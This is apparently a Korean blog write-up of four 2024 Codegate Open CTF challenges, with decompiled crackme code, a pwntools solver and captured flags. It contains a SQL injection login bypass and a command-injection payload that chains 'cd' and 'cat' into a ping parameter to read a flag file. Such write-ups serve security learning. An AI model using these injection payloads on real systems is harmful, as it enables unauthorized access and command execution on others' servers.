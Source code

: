 ```yaml
---
title: "2024 Codegate Open CTF Write Up"
date: "2024-08-31"
excerpt: "Codegate Conference 부스 중 Codegate Open CTF에 참여하여 작성한 Write Up 입니다."
category: "보안"
imageUrl: "/placeholder.svg?height=600&width=1200"
---
```



## Shopping Mall(web)
- 로그인 기능이 존재하고, 구매 목록이 하단에 뜨는 쇼핑몰 사이트

- 로그인창에 인젝션공격(admin' #)
- 구매목록에 플래그 출력
`codegate2024{36a271873875eaea1f270df5284eb4eb668b73c96ca3f80303414ffb23e163f8}`

 

## genesisCrack(rev)
- 입력값이 인증 키 값과 같다면  Success, 틀리면 경고창을 출력하는 exe 프로그램

- IDA로 분석, 바로 if문으로 입력값과 인증 키를 비교중(flag = 인증 키 값)

```
int __fastcall __noreturn main(int argc, const char **argv, const char **envp)
{
  __int64 v3; // rax
  char v4[32]; // [rsp+20h] [rbp-38h] BYREF

  sub_140001020("  ______ _______ __   _ _______ _______ _____ _______\n");
  sub_140001020(" |  ____ |______ | \\  | |______ |______   |   |______\n");
  sub_140001020(" |_____| |______ |  \\_| |______ ______| __|__ ______|\n");
  sub_140001020("\nWelcome to 2024 CODEGATE OpenCTF\n");
  sub_140001020("\n");
  sub_140001020("Enter the 10-digit key: ");
  sub_140001080("%10s");
  v3 = 0i64;
  strcpy(v4, "3502214347");
  while ( v4[v3 + 16] == v4[v3] )
  {
    if ( ++v3 >= 10 )
    {
      sub_140001020("Auth Success!\n");
      Sleep(0x7D0u);
      exit(1);
    }
  }
  MessageBoxW(0i64, L"Auth Fail", L"Authentication", 0x10u);
  Sleep(0xBB8u);
  exit(1);
}
```
`codegate2024{3502214347}`

 

## Gary the Snail(web)
- command 인젝션 취약점이 존재하는 사이트(get요청으로 count값을 받는데 검증없이 command구문으로 삽입)
- ?count=1; cat flag.txt를 입력해 보았으나 502.. 계속 시도해보니 `ping -c {count} 8.8.8.8` 형식으로 되어있어 echo같은 명령어가 아니면 구문 자체에 에러가 나는 것
- ?count=1; ls; echo로 디렉토리 구조 확인 -> flag가 없어 상위 디렉토리로 이동 -> 없어서 cd .. 3번감 -> flag-Yv2bc2i6.txt 파일 발견 -> cat 명령어로 읽기
- 최종공격구문: `?count=1;%20cd%20..;%20cd%20..;%20cd%20..;%20cat%20flag-Yv2bc2i6.txt;%20echo`
`codegate2024{75d6154bcacaebb3814d05253ed17fdb749fd0645e30349e1506c808b5d3d165}`

 

## Fool Calculator(misc)
- time out이 굉장히 빠른 계산 문제

```
from pwn import *
import re

HOST = '3.34.195.42'
PORT = 1337

def main():
    p = remote(HOST, PORT)
    p.recvuntil(b'[+] AI Answer: ')
    
    ai_answer = int(p.recvline().strip())
    log.info(f'AI Answer: {ai_answer}')
   
    def generate_expression(answer):
        x = answer // 2
        y = answer - x
        return f'{x}+{y}'
   
    expression = generate_expression(ai_answer)
    log.info(f'Generated Expression: {expression}')
   

    p.sendline(expression)
    result = p.recvall().decode()
    log.info(result)

if __name__ == "__main__":
    main()
```

- python코드를 작성하여 문제 해결

```
C:\Users\admin\Desktop\test.py:32: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.sendline(expression)
[x] Receiving all data
[x] Receiving all data: 33B
[x] Receiving all data: 70B
[x] Receiving all data: 195B
[x] Receiving all data: 227B

[+] Receiving all data: Done (227B)
[*] Closed connection to 3.34.195.42 port 1337
[*] --------------------------------
    [*] Fool equation: 10088630+10088631
    [*] Fool Answer: 20177261
    [+] Success, FLAG: codegate2024{e6d973fed0a3cf09af6a040cdf89c0bec7a2e601838b1f80584bdd947e540090}

    Time is up! Closing connection.
```